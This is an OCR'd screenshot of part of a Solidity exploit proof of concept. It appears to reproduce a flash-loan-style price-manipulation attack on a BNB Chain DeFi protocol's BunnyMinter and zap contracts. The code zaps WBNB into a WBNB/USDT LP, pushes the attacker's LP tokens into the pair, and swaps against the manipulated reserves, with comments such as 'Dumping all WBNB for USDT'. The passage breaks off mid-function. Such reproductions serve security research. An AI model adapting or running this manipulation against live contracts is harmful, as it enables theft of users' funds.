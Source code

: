 │                                                                                                                                                                                                                                                      │
│         // Manipulate BunnyMinter._zapAssetsToBunnyBNB - deposit liquidity                                                                                                                                                                           │
│         IERC20(WBNB).approve(address(zap), type(uint256).max);                                                                                                                                                                                       │
│         zap.zapInToken(WBNB, 15_000e18, address(WBNBUSDTv2));                                                                                                                                                                                        │
│         uint256 attackerLPBalance = IERC20(address(WBNBUSDTv2)).balanceOf(                                                                                                                                                                           │
│             address(this)                                                                                                                                                                                                                            │
│         );                                                                                                                                                                                                                                           │
│         IERC20(address(WBNBUSDTv2)).transfer(                                                                                                                                                                                                        │
│             address(WBNBUSDTv2),                                                                                                                                                                                                                     │
│             attackerLPBalance                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         emit log_string("Dumping all WBNB for USDT on WBNB+USDT v1 pool..");                                                                                                                                                                         │
│                                                                                                                                                                                                                                                      │
│         // Manipulate WBNB - USDT pair                                                                                                                                                                                                               │
│         (uint256 reserve0, uint256 reserve1, ) = WBNBUSDTv1.getReserves();                                                                                                                                                                           │
│         uint256 amountIn = wbnbAmount;                                                                                                                                                                                                               │
│         uint256 amountOut = router.getAmountOut(amountIn, reserve1, reserve0);                                                                                                                                                                       │
│         IERC20(WBNB).transfer(address(WBNBUSDTv1), amountIn);                                                                                                                                                                                        │
│         WBNBUSDTv1.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                         │
│                                                                                                                                                                                                                                                      │